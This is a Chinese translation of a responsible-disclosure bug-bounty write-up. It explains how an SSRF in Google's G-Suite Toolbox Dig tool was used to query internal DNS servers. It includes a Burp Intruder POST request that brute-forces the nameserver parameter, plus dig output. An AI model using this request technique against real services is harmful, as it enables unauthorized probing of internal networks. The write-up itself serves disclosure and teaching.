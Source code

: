 
# 【技术分享】利用ssrf漏洞获取google内部的dns信息


                                阅读量   
                                **156161**
                            
                        |
                        
                                                                                                                                    ![](./img/85615/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：rcesecurity.com
                                <br>原文地址：[https://www.rcesecurity.com/2017/03/ok-google-give-me-all-your-internal-dns-information/](https://www.rcesecurity.com/2017/03/ok-google-give-me-all-your-internal-dns-information/)

译文仅供参考，具体内容表达以及含义原文为准



[![](./img/85615/t01fe5a52a590e64c30.jpg)](./img/85615/t01fe5a52a590e64c30.jpg)

翻译：[派大星](http://bobao.360.cn/member/contribute?uid=1009682630)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**前言**

一月下旬，我发现和向谷歌VRP部门报告了[toolbox.googleapps.com](https://toolbox.googleapps.com/)的一个服务器端请求伪造漏洞（ssrf）。可用于发现和查询Google内部 DNS服务器，以提取各种公司信息，例如公司内部使用的内部IP地址，以及通过A记录和NS记录暴露的各种主机，如谷歌的Active Directory结构和一个有趣的Minecraft服务器。接下来是这个漏洞的简要说明。

你可能已经知道，G-Suite工具箱可以用来排除各种故障。在这所有有用的工具中，有一款叫做“Dig”的工具，在Linux上 ，可用于查询给定域名的DNS记录，比如A-或MX记录。Google为该工具实现了一个漂亮的web界面，以便直观的查找DNS信息。它看起来像一个从谷歌的角度来查询DNS的有用的工具。

[![](./img/85615/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t013b5d807cd3e67230.png)

“Name server”字段可能会引起每个bug猎人的注意。当我们试图请求127.0.0.1关于我域名DNS记录时，该程序的响应为“Server did not respond message”。

[![](./img/85615/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d820e317dee943f3.png)

这看起来像是该工具试图连接到127.0.0.1:53去取回我域名的DNS信息。这看起来很像是服务器端请求伪造漏洞，不是吗？

<br>

**Ok Google，给我一个响应的内部DNS服务器！**

多亏了BurpSuite的intrude模块，可以通过检测相应的HTTP　POST“nameserver”参数快速的暴力破解响应的IP地址。

```
POST /apps/dig/lookup HTTP/1.1
Host: toolbox.googleapps.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: https://toolbox.googleapps.com/apps/dig/
Content-Length: 107
Cookie: csrftoken=NE5nKGrbPNRoEwm0mahDzop9iJfsxU4H; _ga=GA1.2.2102640869.1486420030; _gat=1
Connection: close
 
csrfmiddlewaretoken=NE5nKGrbPNRoEwm0mahDzop9iJfsxU4H&amp;domain=www.rcesecurity.com&amp;nameserver=§127.0.0.1§&amp;typ=a
```

几分钟之后我就发现了一个有希望的内网IP，它响应了我的请求，但是只是关于我域名的一个空的DNS A记录。

[![](./img/85615/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0180b609a40ee16351.png)

由于我对自己的域名非常了解，因此更有趣的是，是否可以从Google提取一些不可公开的内部信息。

<br>

**Ok Google，给我你的内部域名！**

Et voila，在[这里](https://news.ycombinator.com/from?site=corp.google.com)发现了一些东西。 看来Google正在使用“corp.google.com”作为其公司的域名。至少有一些工具，包括一个名为“MoMa  –  Inside Google”的工具托管在该域名下。现在，你可以使用完全相同的POST请求来发现“corp.google.com”的子域名。或者也可以用用google搜索一下，你将会发现一个“ad.corp.google.com”的有趣的A记录。

Ok Google，只要提供「ad.corp.google.com」的所有A纪录即可！

[![](./img/85615/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016fb66ab45f0df524.png)

与公共DNS记录上的内容比较一下，看起来会更有趣：

```
dig A ad.corp.google.com @8.8.8.8
 
; &lt;&lt;&gt;&gt; DiG 9.8.3-P1 &lt;&lt;&gt;&gt; A ad.corp.google.com @8.8.8.8
;; global options: +cmd
;; Got answer:
;; -&gt;&gt;HEADER&lt;&lt;- opcode: QUERY, status: NXDOMAIN, id: 5981
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 0
 
;; QUESTION SECTION:
;ad.corp.google.com.INA
 
;; AUTHORITY SECTION:
corp.google.com.59INSOAns3.google.com. dns-admin.google.com. 147615698 900 900 1800 60
 
;; Query time: 28 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Wed Feb 15 23:56:05 2017
;; MSG SIZE  rcvd: 86
```

现在我们已经接触到了内网！

<br>

**Ok Google，给我与该域名相关联的NS记录（及其内部IP）！**

[![](./img/85615/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t019f52848839d6210c.png)

<br>

**Ok Google，让我们更具体一点。 给我有关“gc._msdcs”的信息！**

[![](./img/85615/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01cbdaf7878145295a.png)

<br>

**Ok Google，还有什么你想让我看到吗？**

[![](./img/85615/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01545c88fc1e475ce4.png)

通过其VRP部门向Google报告此漏洞后，他们迅速修复了此漏洞。 感谢Google的赏金！
